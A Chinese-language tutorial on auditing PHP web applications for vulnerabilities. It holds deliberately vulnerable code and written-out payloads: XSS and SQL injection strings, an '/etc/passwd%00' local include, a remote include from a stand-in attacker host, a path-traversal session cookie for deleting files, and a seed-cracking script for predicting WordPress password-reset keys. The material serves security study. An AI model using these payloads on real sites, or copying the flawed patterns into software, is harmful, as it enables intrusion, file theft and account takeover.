


原文 by 80vul

## 高级PHP应用程序漏洞审核技术
  

  
### 前言
  
PHP是一种被广泛使用的脚本语言，尤其适合于web开发。具有跨平台，容易学习，功能强大等特点，据统计全世界有超过34%的网站有php的应用，包括Yahoo、sina、163、sohu等大型门户网站。而且很多具名的web应用系统（包括bbs,blog,wiki,cms等等）都是使用php开发的，Discuz、phpwind、phpbb、vbb、wordpress、boblog等等。随着web安全的热点升级，php应用程序的代码安全问题也逐步兴盛起来，越来越多的安全人员投入到这个领域，越来越多的应用程序代码漏洞被披露。针对这样一个状况，很多应用程序的官方都成立了安全部门，或者雇佣安全人员进行代码审计，因此出现了很多自动化商业化的代码审计工具。也就是这样的形势导致了一个局面：大公司的产品安全系数大大的提高，那些很明显的漏洞基本灭绝了，那些大家都知道的审计技术都无用武之地了。我们面对很多工具以及大牛扫描过n遍的代码，有很多的安全人员有点悲观，而有的官方安全人员也非常的放心自己的代码，但是不要忘记了“没有绝对的安全”，我们应该去寻找新的途径挖掘新的漏洞。本文就给介绍了一些非传统的技术经验和大家分享。
  

  
另外在这里特别说明一下本文里面很多漏洞都是来源于网络上牛人和朋友们的分享，在这里需要感谢他们 ：）
  

  
### 传统的代码审计技术
  
WEB应用程序漏洞查找基本上是围绕两个元素展开：变量与函数。也就是说一漏洞的利用必须把你提交的恶意代码通过变量经过n次变量转换传递，最终传递给目标函数执行，还记得MS那句经典的名言吗？“一切输入都是有害的”。这句话只强调了变量输入，很多程序员把“输入”理解为只是gpc[$_GET,$_POST,$_COOKIE]，但是变量在传递过程产生了n多的变化。导致很多过滤只是个“纸老虎”！我们换句话来描叙下代码安全：“一切进入函数的变量是有害的”。
  
PHP代码审计技术用的最多也是目前的主力方法：静态分析，主要也是通过查找容易导致安全漏洞的危险函数，常用的如grep，findstr等搜索工具，很多自动化工具也是使用正则来搜索这些函数。下面列举一些常用的函数，也就是下文说的字典（暂略）。但是目前基本已有的字典很难找到漏洞，所以我们需要扩展我们的字典，这些字典也是本文主要探讨的。
  
其他的方法有：通过修改PHP源代码来分析变量流程，或者hook危险的函数来实现对应用程序代码的审核，但是这些也依靠了我们上面提到的字典。
  

  
### PHP版本与应用代码审计
  
到目前为止，PHP主要有3个版本：php4、php5、php6，由于php缺少自动升级的机制，导致目前PHP版本并存，也导致很多存在漏洞没有被修补。这些有漏洞的函数也是我们进行WEB应用程序代码审计的重点对象，也是我们字典重要来源。
  

  
### 其他的因素与应用代码审计
  
很多代码审计者拿到代码就看，他们忽视了“安全是一个整体”，代码安全很多的其他因素有关系，比如上面我们谈到的PHP版本的问题，比较重要的还有操作系统类型（主要是两大阵营win/*nix），WEB服务端软件（主要是iis/apache两大类型）等因素。这是由于不同的系统不同的WEB SERVER有着不同的安全特点或特性，下文有些部分会涉及。
  
所以我们在做某个公司WEB应用代码审计时，应该了解他们使用的系统，WEB服务端软件，PHP版本等信息。
  

  
### 扩展我们的字典
  
下面将详细介绍一些非传统PHP应用代码审计一些漏洞类型和利用技巧。
  

  
### 变量本身的key
  
说到变量的提交很多人只是看到了GET/POST/COOKIE等提交的变量的值，但是忘记了有的程序把变量本身的key也当变量提取给函数处理。
  
``` php
  
<?php
  
//key.php?aaaa'aaa=1&bb'b=2 
  
//print_R($_GET); 
  
 foreach ($_GET AS $key => $value)
  
{
  
        print $key."\n";
  
}
  
?>
  
```
  
上面的代码就提取了变量本身的key显示出来，单纯对于上面的代码，如果我们提交URL：
  
`key.php?<script>alert(1);</script>=1&bbb=2`
  
那么就导致一个xss的漏洞，扩展一下如果这个key提交给include()等函数或者sql查询呢？：）
  

  
漏洞审计策略PHP版本要求：无
  
系统要求：无
  
审计策略：通读代码
  

  
### 变量覆盖
  
很多的漏洞查找者都知道extract()这个函数在指定参数为EXTR_OVERWRITE或者没有指定函数可以导致变量覆盖，但是还有很多其他情况导致变量覆盖的如：
  
### 遍历初始化变量
  
请看如下代码：
  
``` php
  
<?php
  
//var.php?a=fuck
  
$a='hi';
  
foreach($_GET as $key => $value) {
  
        $$key = $value;
  
}
  
print $a;
  
?>
  
```
  
很多的WEB应用都使用上面的方式（注意循环不一定是foreach），如Discuz!4.1的WAP部分的代码：
  
``` php
  
$chs = '';
  
if($_POST && $charset != 'utf-8') {
  
        $chs = new Chinese('UTF-8', $charset);
  
        foreach($_POST as $key => $value) {
  
                $$key = $chs->Convert($value);
  
        }
  
        unset($chs);
  
```
  
漏洞审计策略PHP版本要求：无
  
系统要求：无
  
审计策略：通读代码
  

  
### parse_str()变量覆盖漏洞
  
``` php
  
//var.php?var=new
  
$var = 'init';                     
  
parse_str($_SERVER['QUERY_STRING']); 
  
print $var;
  
```
  
该函数一样可以覆盖数组变量，上面的代码是通过$_SERVER['QUERY_STRING']来提取变量的，对于指定了变量名的我们可以通过注射“=”来实现覆盖其他的变量：
  
``` php
  
//var.php?var=1&a[1]=var1%3d222
  
$var1 = 'init';
  
parse_str($_SERVER['QUERY_STRING']); 
  
parse_str($a[$_GET['var']]);
  
print $var1;
  
```
  
上面的代码通过提交$var来实现对$var1的覆盖。
  

  
漏洞审计策略（parse_str）PHP版本要求：无
  
系统要求：无
  
审计策略：查找字符parse_str
  

  
漏洞审计策略（mb_parse_str）PHP版本要求：php4<4.4.7 php5<5.2.2
  
系统要求：无
  
审计策略：查找字符mb_parse_str
  

  
### import_request_variables()变量覆盖漏洞
  
``` php
  
//var.php?_SERVER[REMOTE_ADDR]=10.1.1.1
  
echo 'GLOBALS '.(int)ini_get("register_globals")."n";
  
import_request_variables('GPC');
  
if ($_SERVER['REMOTE_ADDR'] != '10.1.1.1') die('Go away!');
  
echo 'Hello admin!';
  
```
  
漏洞审计策略（import_request_variables）PHP版本要求：php4<4.4.1 php5<5.2.2
  
系统要求：无
  
审计策略：查找字符import_request_variables
  

  
### PHP5 Globals
  
从严格意义上来说这个不可以算是PHP的漏洞，只能算是一个特性，测试代码：
  
``` php
  
<?
  
// register_globals =ON
  
//foo.php?GLOBALS[foobar]=HELLO
  
php echo $foobar; 
  
?>
  
```
  
但是很多的程序没有考虑到这点，请看如下代码：
  
``` php
  
//为了安全取消全局变量
  
//var.php?GLOBALS[a]=aaaa&b=111
  
if (ini_get('register_globals')) foreach($_REQUEST as $k=>$v) unset(${$k});
  
print $a;
  
print $_GET[b];
  
```
  
如果熟悉WEB2.0的攻击的同学，很容易想到上面的代码我们可以利用这个特性进行csrf攻击。
  

  
漏洞审计策略PHP版本要求：无
  
系统要求：无
  
审计策略：通读代码
  

  
### magic_quotes_gpc与代码安全
  
#### 什么是magic_quotes_gpc
  
当打开时，所有的 '（单引号），"（双引号），\（反斜线）和 NULL 字符都会被自动加上一个反斜线进行转义。还有很多函数有类似的作用 如：addslashes()、mysql_escape_string()、mysql_real_escape_string()等，另外还有parse_str()后的变量也受magic_quotes_gpc的影响。目前大多数的主机都打开了这个选项，并且很多程序员也注意使用上面那些函数去过滤变量，这看上去很安全。很多漏洞查找者或者工具遇到些函数过滤后的变量直接就放弃，但是就在他们放弃的同时也放过很多致命的安全漏洞。 ：）
  

  
#### 哪些地方没有魔术引号的保护
  
1) $_SERVER变量
  
PHP5的$_SERVER变量缺少magic_quotes_gpc的保护，导致近年来X-Forwarded-For的漏洞猛暴，所以很多程序员考虑过滤X-Forwarded-For，但是其他的变量呢？
  

  
漏洞审计策略（$_SERVER变量）PHP版本要求：无
  
系统要求：无
  
审计策略：查找字符_SERVER
  

  
2) getenv()得到的变量（使用类似$_SERVER变量）
  

  
漏洞审计策略（getenv()）PHP版本要求：无
  
系统要求：无
  
审计策略：查找字符getenv
  

  
3) $HTTP_RAW_POST_DATA与PHP输入、输出流
  
主要应用与soap/xmlrpc/webpublish功能里，请看如下代码：
  
``` php
  
if ( !isset( $HTTP_RAW_POST_DATA ) ) {
  
        $HTTP_RAW_POST_DATA = file_get_contents( 'php://input' );
  
}
  
if ( isset($HTTP_RAW_POST_DATA) )
  
        $HTTP_RAW_POST_DATA = trim($HTTP_RAW_POST_DATA);
  
```
  
漏洞审计策略（数据流）PHP版本要求：无
  
系统要求：无
  
审计策略：查找字符HTTP_RAW_POST_DATA或者php://input
  

  
4) 数据库操作容易忘记`'`的地方如：in()/limit/order by/group by
  
如Discuz!<5.0的pm.php：
  
``` php
  
if(is_array($msgtobuddys)) {
  
        $msgto = array_merge($msgtobuddys, array($msgtoid));
  
                ......
  
foreach($msgto as $uid) {
  
        $uids .= $comma.$uid;
  
        $comma = ',';
  
}
  
......
  
$query = $db->query("SELECT m.username, mf.ignorepm FROM {$tablepre}members m
  
        LEFT JOIN {$tablepre}memberfields mf USING(uid)
  
        WHERE m.uid IN ($uids)");
  
```
  
漏洞审计策略PHP版本要求：无
  
系统要求：无
  
审计策略：查找数据库操作字符（select,update,insert等等）
  

  
### 变量的编码与解码
  
一个WEB程序很多功能的实现都需要变量的编码解码，而且就在这一转一解的传递过程中就悄悄的绕过你的过滤的安全防线。
  
这个类型的主要函数有：
  
1) stripslashes() 这个其实就是一个decode-addslashes()
  
2) 其他字符串转换函数：
  

  

  
另外一个 unserialize/serialize
  

  
3) 字符集函数（GKB,UTF7/8...）如iconv()/mb_convert_encoding()等
  
目前很多漏洞挖掘者开始注意这一类型的漏洞了，如典型的urldecode：
  
`$sql = "SELECT * FROM article WHERE articleid='".urldecode($_GET[id])."'";`
  
当magic_quotes_gpc=on时，我们提交`?id=%2527`，得到sql语句为：
  
`SELECT * FROM article WHERE articleid='''`
  

  
漏洞审计策略PHP版本要求：无
  
系统要求：无
  
审计策略：查找对应的编码函数
  

  
### 二次攻击
  
二次攻击者提交的恶意代码不是直接通过一个变量提交某个函数漏洞，而是通过变量转化或者中转，最终提交到漏洞函数
  
1)数据库出来的变量没有进行过滤
  
2)数据库的转义符号：
  
* mysql/oracle转义符号同样是\（我们提交'通过魔术引号变化为\'，当我们update进入数据库时，通过转义变为'）
  
* mssql的转义字符为'（所以我们提交'通过魔术引号变化为\'，mssql会把它当为一个字符串直接处理，所以魔术引号对于mssql的注射没有任何意义）
  

  
从这里我们可以思考得到一个结论：一切进入函数的变量都是有害的，另外利用二次攻击我们可以实现一个webrootkit，把我们的恶意构造直接放到数据库里。我们应当把这样的代码看成一个vul？
  

  
漏洞审计策略PHP版本要求：无
  
系统要求：无
  
审计策略：通读代码
  
魔术引号带来的新的安全问题首先我们看下魔术引号的处理机制：
  
[ \\-->\\\\, '-->\\' , "-->\\" , null-->\0 ]
  
这给我们引进了一个非常有用的符号“\”，“\”符号不仅仅是转义符号，在WIN系统下也是目录转跳的符号。这个特点可能导致php应用程序里产生非常有意思的漏洞：
  
1)得到原字符（',\\,",null]）  
提交 ' ==> 魔术引号处理  &#92;' ==>  substr '
  
``` php
  
$order_sn=substr($_GET['order_sn'], 1);
  
$sql = "SELECT order_id, order_status, shipping_status, pay_status, ".
  
   " shipping_time, shipping_id, invoice_no, user_id ".
  
   " FROM " . $ecs->table('order_info').
  
   " WHERE order_sn = '$order_sn' LIMIT 1";
  
```

  
2)得到"\\"字符  
提交 ' ==> 魔术引号处理  &#92;' ==>  substr \
  
``` php
  
$order_sn=substr($_GET['order_sn'], 0,1);
  
$sql = "SELECT order_id, order_status, shipping_status, pay_status, ".
  
   " shipping_time, shipping_id, invoice_no, user_id ".
  
   " FROM " . $ecs->table('order_info').
  
   " WHERE order_sn = '$order_sn' and order_tn='".$_GET['order_tn']."'";
  
```
  
提交内容：
  
`?order_sn='&order_tn=%20and%201=1/*` 
  
执行的SQL语句为：
  
``` sql
  
SELECT order_id, order_status, shipping_status, pay_status, shipping_time, 
  
shipping_id, invoice_no, user_id FROM order_info WHERE order_sn = '\' and 
  
order_tn=' and 1=1/*'
  
```
  
漏洞审计策略PHP版本要求：无
  
系统要求：无
  
审计策略：查找字符串处理函数如substr或者通读代码
  

  
### 变量key与魔术引号
  
我们最在这一节的开头就提到了变量key，PHP的魔术引号对它有什么影响呢？
  
``` php
  
<?php
  
//key.php?aaaa'aaa=1&bb'b=2 
  
//print_R($_GET); 
  
 foreach ($_GET AS $key => $value)
  
        {
  
        print $key."\n";
  
        }
  
?>
  
```
  
1)当magic_quotes_gpc = On时，在php5.24下测试显示：
  
```
  
aaaa\'aaa
  
bb\'b
  
```
  
从上面结果可以看出来，在设置了magic_quotes_gpc = On下，变量key受魔术引号影响。但是在php4和php<5.2.1的版本中，不处理数组第一维变量的key，测试代码如下：
  
``` php
  
<?php
  
//key.php?aaaa'aaa[bb']=1 
  
print_R($_GET); 
  
?>
  
```
  
结果显示:
  
`Array ( [aaaa'aaa] => Array ( [bb\'] => 1 ) )` 
  
数组第一维变量的key不受魔术引号的影响。
  

  
漏洞审计策略PHP版本要求：php4和php<5.2.1
  
系统要求：无
  
审计策略：通读代码
  

  
2)当magic_quotes_gpc = Off 时，在php5.24下测试显示：
  
```
  
aaaa'aaa
  
bb'b
  
```
  
对于magic_quotes_gpc = Off 时所有的变量都是不安全的，考虑到这个，很多程序都通过addslashes 等函数来实现魔术引号对变量的过滤，示例代码如下：
  
``` php
  
<?php 
  
//keyvul.php?aaa'aa=1'
  
//magic_quotes_gpc = Off
  
 if (!get_magic_quotes_gpc())
  
{
  
 $_GET  = addslashes_array($_GET);
  
}
  

  
function addslashes_array($value)
  
{
  
        return is_array($value) ? array_map('addslashes_array', $value) : addslashes($value);
  
}
  
print_R($_GET);
  
foreach ($_GET AS $key => $value)
  
{
  
        print $key;
  
}
  
?>
  
```
  
以上的代码看上去很完美，但是他这个代码里addslashes($value)只处理了变量的具体的值，但是没有处理变量本身的key，上面的代码显示结果如下：
  
``` php
  
Array
  
(
  
    [aaa'aa] => 1\'
  
)
  
aaa'aa
  
```
  

  
漏洞审计策略PHP版本要求：无
  
系统要求：无
  
审计策略：通读代码
  

  
### 代码注射
  
PHP中可能导致代码注射的函数很多人都知道eval、preg_replace+/e 可以执行代码，但是不知道php还有很多的函数可以执行代码如：
  

  
assert() call_user_func() call_user_func_array() create_function() 变量函数...
  
这里我们看看最近出现的几个关于create_function()代码执行漏洞的代码：
  
``` php
  
<?php
  
//how to exp this code
  
$sort_by=$_GET['sort_by'];
  
$sorter='strnatcasecmp';
  
$databases=array('test','test');
  
$sort_function = '  return 1 * ' . $sorter . '($a["' . $sort_by . '"], $b["' . $sort_by . '"]);';
  
usort($databases, create_function('$a, $b', $sort_function));
  
```
  
漏洞审计策略PHP版本要求：无
  
系统要求：无
  
审计策略：查找对应函数（assert,call_user_func,call_user_func_array,create_function等）
  

  
### 变量函数与双引号
  
对于单引号和双引号的区别，很多程序员深有体会，示例代码：
  
```
  
echo "$a\n";
  
echo '$a\n';
  
```
  
我们再看如下代码：
  
``` php
  
//how to exp this code
  
if($globals['bbc_email']){
  

  
$text = preg_replace(
  
                array("/\[email=(.*?)\](.*?)\[\/email\]/ies",
  
                                "/\[email\](.*?)\[\/email\]/ies"),
  
                array('check_email("$1", "$2")',
  
                                'check_email("$1", "$1")'), $text);
  
```
  
另外很多的应用程序都把变量用 " " 存放在缓存文件或者config或者data文件里，这样很容易被人注射变量函数。
  
漏洞审计策略PHP版本要求：无
  
系统要求：无
  
审计策略：通读代码
  

  
### PHP自身函数漏洞及缺陷
  
#### PHP函数的溢出漏洞
  
大家还记得Stefan Esser大牛的Month of PHP Bugs（MOPB见附录2）项目么，其中比较有名的要算是unserialize()，代码如下：
  
`unserialize(stripslashes($HTTP_COOKIE_VARS[$cookiename . '_data']);`
  
在以往的PHP版本里，很多函数都曾经出现过溢出漏洞，所以我们在审计应用程序漏洞的时候不要忘记了测试目标使用的PHP版本信息。
  

  
漏洞审计策略PHP版本要求：对应fix的版本
  
系统要求：
  
审计策略：查找对应函数名
  

  
#### PHP函数的其他漏洞
  
Stefan Esser大牛发现的漏洞：unset()--Zend_Hash_Del_Key_Or_Index Vulnerability 比如phpwind早期的serarch.php里的代码：
  
``` php
  
unset($uids);
  
......
  
$query=$db->query("SELECT uid FROM pw_members WHERE username LIKE '$pwuser'");
  
while($member=$db->fetch_array($query)){
  
        $uids .= $member['uid'].',';
  
}
  
$uids ? $uids=substr($uids,0,-1) : $sqlwhere.=' AND 0 ';
  
........
  
$query = $db->query("SELECT DISTINCT t.tid FROM $sqltable WHERE $sqlwhere $orderby $limit");
  
```
  
漏洞审计策略PHP版本要求：php4<4.3 php5<5.14
  
系统要求：无
  
审计策略：查找unset
  

  
### session_destroy()删除文件漏洞
  
测试PHP版本：5.1.2 这个漏洞是几年前朋友saiy发现的，session_destroy()函数的功能是删除session文件，很多web应用程序的logout的功能都直接调用这个函数删除session，但是这个函数在一些老的版本中缺少过滤导致可以删除任意文件。测试代码如下：
  
``` php
  
<?php 
  
//val.php   
  
session_save_path('./');
  
session_start();
  
if($_GET['del']) {
  
        session_unset();
  
        session_destroy();
  
}else{
  
        $_SESSION['hei']=1;
  
        echo(session_id());
  
        print_r($_SESSION);
  
}
  
?>
  
```
  
当我们提交构造`cookie:PHPSESSID=/../1.php`，相当于`unlink('sess_/../1.php')`这样就通过注射`../` 转跳目录删除任意文件了。很多著名的程序某些版本都受影响如phpmyadmin，sablog，phpwind3等等。
  

  
漏洞审计策略PHP版本要求：具体不详
  
系统要求：无
  
审计策略：查找session_destroy
  

  
### 随机函数
  
1) rand() VS mt_rand()
   
``` php
  
<?php
  
//on windows
  
print mt_getrandmax(); //2147483647
  
print getrandmax();// 32767
  
?>
  
```
  
可以看出rand()最大的随机数是32767，这个很容易被我们暴力破解。
  
``` php
  
<?php
  
$a= md5(rand());
  
for($i=0;$i<=32767;$i++){
  
  if(md5($i) ==$a ) {
  
   print $i."-->ok!!<br>";exit;
  
   }else { print $i."<br>";}
  
}
  
?>
  
```
  
当我们的程序使用rand处理session时，攻击者很容易暴力破解出你的session，但是对于mt_rand是很难单纯的暴力的。
  

  
漏洞审计策略PHP版本要求：无
  
系统要求：无
  
审计策略：查找rand
  

  
2) mt_srand()/srand()-weak seeding（by Stefan Esser）
  
看php手册里的描述：
   
``` php
  
mt_srand
  
(PHP 3 >= 3.0.6, PHP 4, PHP 5)
  

  
mt_srand -- 播下一个更好的随机数发生器种子
  
说明
  
void mt_srand ( int seed )
  
```
  
用 seed 来给随机数发生器播种。从 PHP 4.2.0 版开始，seed 参数变为可选项，当该项为空时，会被设为随时数。
  
例子 1. mt_srand() 范例
  
``` php
  
<?php
  
// seed with microseconds
  
function make_seed()
  
{
  
    list($usec, $sec) = explode(' ', microtime());
  
    return (float) $sec + ((float) $usec * 100000);
  
}
  
mt_srand(make_seed());
  
$randval = mt_rand();
  
?> 
  
```
  
注: 自 PHP 4.2.0 起，不再需要用 srand() 或 mt_srand() 函数给随机数发生器播种，现已自动完成。
  
php从4.2.0开始实现了自动播种，但是为了兼容，后来使用类似于这样的代码播种：
  
mt_srand ((double) microtime() * 1000000)
  
但是使用(double)microtime()*1000000类似的代码seed是比较脆弱的：
  
0<(double) microtime()<1 ---> 0<(double) microtime()* 1000000<1000000
  
那么很容易暴力破解,测试代码如下：
  
``` php
  
<?php
  
/////////////////
  
//>php rand.php
  
//828682
  
//828682
  
////////////////
  
ini_set("max_execution_time",0);
  
$time=(double) microtime()* 1000000;
  
print $time."\n";
  
mt_srand ($time);
  

  
$search_id = mt_rand();
  
$seed = search_seed($search_id);
  
print $seed;
  
function search_seed($rand_num) {
  
$max = 1000000;
  
for($seed=0;$seed<=$max;$seed++){
  
        mt_srand($seed);
  
        $key = mt_rand();
  
        if($key==$rand_num) return $seed;
  
}
  
return false;
  
}
  
?>
  
```
  
从上面的代码实现了对seed的破解，另外根据Stefan Esser的分析seed还根据进程变化而变化，换句话来说同一个进程里的seed是相同的。 然后同一个seed每次mt_rand的值都是特定的。如下：
  
```
  
seed-A
  
mt_rand-A-1
  
mt_rand-A-2
  
mt_rand-A-3
  

  
seed-B
  
mt_rand-B-1
  
mt_rand-B-2
  
mt_rand-B-3
  
```
  
对于seed-A里mt_rand-1/2/3都是不相等的，但是值都是特定的，也就是说当seed-A等于seed-B，那么mt_rand-A-1就等于mt_rand-B-1…，这样我们只要能够得到seed就可以得到每次mt_rand的值了。
  
对于5.2.6>php>4.2.0直接使用默认播种的程序也是不安全的（很多的安全人员错误的以为这样就是安全的），这个要分两种情况来分析：
  
第一种：'Cross Application Attacks'，这个思路在Stefan Esser文章里有提到，主要是利用其他程序定义的播种（如mt_srand ((double) microtime()* 1000000)），phpbb+wordpress组合就存在这样的危险.
  
第二种：5.2.6>php>4.2.0默认播种的算法也不是很强悍，这是Stefan Esser的文章里的描述：
  
```
  
The Implementation
  
When mt_rand() is seeded internally or by a call to mt_srand() PHP 4 and PHP 5 <= 5.2.0 force the lowest bit to 1. 
  
Therefore the strength of the seed is only 31 and not 32 bits. In PHP 5.2.1 and above the implementation of the 
  
Mersenne Twister was changed and the forced bit removed.
  
```
  
在32位系统上默认的播种的种子为最大值是2^32，这样我们循环最多`2^32`次就可以破解seed。而在PHP 4和PHP 5 <= 5.2.0 的算法有个bug：奇数和偶数的播种是一样的（详见附录3）,测试代码如下：
  
``` php
  
<?php
  
mt_srand(4); 
  
$a = mt_rand(); 
  
mt_srand(5); 
  
$b = mt_rand();
  
print $a."\n".$b;
  
?>
  
```
  
通过上面的代码发现$a==$b，所以我们循环的次数为2^(32/2)=2^31次。我们看如下代码：
  
``` php
  
<?php
  
//base on http://www.milw0rm.com/exploits/6421 
  
//test on php 5.2.0
  

  
define('BUGGY', 1); //上面代码$a==$b时候定义BUGGY=1
  

  
$key = wp_generate_password(20, false);
  
echo $key."\n";
  
$seed = getseed($key);
  
print $seed."\n"; 
  

  
mt_srand($seed);
  
$pass = wp_generate_password(20, false);
  
echo $pass."\n";        
  
        
  
function wp_generate_password($length = 12, $special_chars = true) {
  
        $chars = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789';
  
        if ( $special_chars )
  
                $chars .= '!@#$%^&*()';
  

  
        $password = '';
  
        for ( $i = 0; $i < $length; $i++ )
  
                $password .= substr($chars, mt_rand(0, strlen($chars) - 1), 1);
  
        return $password;
  
} 
  

  
function getseed($resetkey) {
  
        $max = pow(2,(32-BUGGY));
  
        for($x=0;$x<=$max;$x++) {
  
                $seed = BUGGY ? ($x << 1) + 1 : $x; 
  
                mt_srand($seed);
  
                $testkey = wp_generate_password(20,false);
  
                if($testkey==$resetkey) { echo "o\n"; return $seed; }
  

  
                if(!($x % 10000)) echo $x / 10000;
  
        }
  
        echo "\n";
  
        return false;
  
}
  
?>
  
```
  
运行结果如下：
  
```
  
php5>php rand.php
  
M8pzpjwCrvVt3oobAaOr
  
0123456789101112131415161718192021222324252627282930313233343536373839404142434
  
445464748495051525354555657585960616263646566676869
  
7071727374757677787980818283848586878889909192939495969798991001011021031041051
  
061071081091101111121131141151161171181191201211221
  
2312412512612712812913013113213313413513613713813914014114214314414514614714814
  
915015115215315415515615715815916016116216316416516
  
6167168169170171172173174175176177178179180181182183184185186187188189190191192
  
193194195196197198199200201202203204205206207208209
  
2102112122132142152162172182192202212222232242252262272282292302312322332342352
  
362372382392402412422432442452462472482492502512522
  
..............01062110622106231062410625106261062710628106291063010631106321063
  
3o
  
70693
  
pjwCrvVt3oobAaOr
  
```
  
当10634次时候我们得到了结果。
  
当PHP版本到了5.2.1后，通过修改算法修补了奇数和偶数的播种相等的问题，这样也导致了php5.2.0前后导致同一个播种后的mt_rand()的值不一样。比如：
  
``` php
  
<?php
  
mt_srand(42);
  
echo mt_rand();
  
//php<=5.20 1387371436
  
//php>5.20 1354439493           
  
?>
  
```
  
正是这个原因，也要求了我们的exp的运行环境：当目标>5.20时候，我们exp运行的环境也要是>5.20的版本，反过来也是一样。
  
从上面的测试及分析来看，php<5.26不管有没有定义播种，mt_rand处理的数据都是不安全的。在web应用里很多都使用mt_rand来处理随机的session，比如密码找回功能等等，这样的后果就是被攻击者恶意利用直接修改密码。
  
很多著名的程序都产生了类似的漏洞如wordpress、phpbb、punbb等等。（在后面我们将实际分析下国内著名的bbs程序Discuz!的mt_srand导致的漏洞）
  

  
漏洞审计策略PHP版本要求：php4 php5<5.2.6
  
系统要求：无
  
审计策略：查找mt_srand/mt_rand
  

  
### 特殊字符
  
其实“特殊字符”也没有特定的标准定义，主要是在一些code hacking发挥着特殊重作用的一类字符。下面就举几个例子：
  
#### 截断
  
其中最有名的数大家都熟悉的null字符截断。
  
#### include截断
  
``` php
  
<?php 
  
include $_GET['action'].".php"; 
  
?>
  
```
  
提交“action=/etc/passwd%00”中的“%00”将截断后面的“.php”，但是除了“%00”还有没有其他的字符可以实现截断使用呢？肯定有人想到了远程包含的url里问号“?”的作用，通过提交“ action=http://www.hacksite.com/evil-code.txt? ” 这里“?”实现了“伪截断”：），好象这个看上去不是那么舒服那么我们简单写个代码fuzz一下：  
  
``` php
  
<?php
  
////////////////////
  
////var5.php代码:
  
////include $_GET['action'].".php"; 
  
////print strlen(realpath("./"))+strlen($_GET['action']);  
  
///////////////////
  
ini_set('max_execution_time', 0);
  
$str='';
  
for($i=0;$i<50000;$i++)
  
{
  
        $str=$str."/";
  

  
        $resp=file_get_contents('http://127.0.0.1/var/var5.php?action=1.txt'.$str);
  
        //1.txt里的代码为print 'hi';
  
        if (strpos($resp, 'hi') !== false){
  
                print $i;
  
                exit;
  
        }
  
}
  
?>
  
```
  
经过测试字符“.”、“ /”或者2个字符的组合，在一定的长度时将被截断，win系统和&#42;nix的系统长度不一样，当win下strlen(realpath("./"))+strlen($_GET['action'])的长度大于256时被截断，对于&#42;nix的长度是4 * 1024 = 4096。对于php.ini里设置远程文件关闭的时候就可以利用上面的技巧包含本地文件了。（此漏洞由cloie#ph4nt0m.org最先发现]）
  

  
#### 数据截断
  
对于很多web应用文件在很多功能是不容许重复数据的，比如用户注册功能等。一般的应用程序对于提交注册的username和数据库里已有的username对比是不是已经有重复数据，然而我们可以通过“数据截断”等来饶过这些判断，数据库在处理时候产生截断导致插入重复数据。
  
#### 1) Mysql SQL Column Truncation Vulnerabilities
  
这个漏洞又是大牛Stefan Esser发现的（Stefan Esser是我的偶像:)），这个是由于mysql的sql_mode设置为default的时候，即没有开启STRICT_ALL_TABLES选项时，MySQL对于插入超长的值只会提示warning，而不是error（如果是error就插入不成功），这样可能会导致一些截断问题。测试如下：
  
``` php
  
mysql> insert into truncated_test(`username`,`password`) values("admin","pass");
  

  
mysql> insert into truncated_test(`username`,`password`) values("admin           x", "new_pass");
  
Query OK, 1 row affected, 1 warning (0.01 sec)
  

  
mysql> select * from truncated_test;
  
+----+------------+----------+
  
| id | username   | password |
  
+----+------------+----------+
  
| 1 | admin      | pass     |
  
| 2 | admin      | new_pass |
  
+----+------------+----------+
  
2 rows in set (0.00 sec)
  
```
  
#### 2) Mysql charset Truncation vulnerability
  
这个漏洞是80sec发现的，当mysql进行数据存储处理utf8等数据时对某些字符导致数据截断。测试如下：
  
``` 
  
mysql> insert into truncated_test(`username`,`password`) values(concat("admin",0xc1), "new_pass2");
  
Query OK, 1 row affected, 1 warning (0.00 sec)
  

  
mysql> select * from truncated_test;
  
+----+------------+----------+
  
| id | username   | password |
  
+----+------------+----------+
  
| 1 | admin      | pass      |
  
| 2 | admin      | new_pass  |
  
| 3 | admin      | new_pass2 |
  
+----+------------+----------+
  
2 rows in set (0.00 sec)
  
```
  
很多的web应用程序没有考虑到这些问题，只是在数据存储前简单查询数据是否包含相同数据，如下代码：
   
``` php
  
$result = mysql_query("SELECT * from test_user where user='$user' ");
  
  ....
  
if(@mysql_fetch_array($result, MYSQL_NUM)) {
  
        die("already exist");
  
}
  
```
  
漏洞审计策略PHP版本要求：无
  
系统要求：无
  
审计策略：通读代码
  

  
#### 文件操作里的特殊字符
  
文件操作里有很多特殊的字符，发挥特别的作用，很多web应用程序没有注意处理这些字符而导致安全问题。比如很多人都知道的windows系统文件名对“空格”和“.”等的忽视，这个主要体现在上传文件或者写文件上，导致直接写webshell。另外对于windows系统对“.\\..\\”进行系统转跳等等。 下面还给大家介绍一个非常有意思的问题：
  
``` php
  
//Is this code vul?
  
if( eregi(".php",$url) ){
  
        die("ERR");
  
}
  
$fileurl=str_replace($webdb[www_url],"",$url);
  
.....
  
header('Content-Disposition: attachment; filename='.$filename);
  
```
  
很多人看出来了上面的代码的问题，程序首先禁止使用“.php”后缀。但是下面居然接了个str_replace替换$webdbwww_url为空，那么我们提交“.p$webdbwww_urlhp”就可以饶过了。那么上面的代码杂fix呢？有人给出了如下代码：
  
``` php
  
$fileurl=str_replace($webdb[www_url],"",$url);
  
if( eregi(".php",$url) ){
  
        die("ERR");
  
}
  
```
  
str_replace提到前面了，很完美的解决了str_replace代码的安全问题，但是问题不是那么简单，上面的代码在某些系统上一样可以突破。接下来我们先看看下面的代码：
  
``` php
  
<?php
  
for($i=0;$i<255;$i++) {
  
        $url = '1.ph'.chr($i);
  
        $tmp = @file_get_contents($url);
  
        if(!empty($tmp)) echo chr($i)."\r\n";
  
}  
  
?>
  
```
  
我们在windows系统运行上面的代码得到如下字符* < > ? P p都可以打开目录下的1.php。
  

  
漏洞审计策略PHP版本要求：无
  
系统要求：无
  
审计策略：文读取件操作函数
  

  
#### 怎么进一步寻找新的字典
  
上面我们列举很多的字典，但是很多都是已经公开过的漏洞或者方式，那么我们怎么进一步找到新的字典或者利用方式呢？
  

  
* 分析和学习别人发现的漏洞或者exp，总结出漏洞类型及字典
  
* 通过学习php手册或者官方文档,挖掘出新的有危害的函数或者利用方式
  
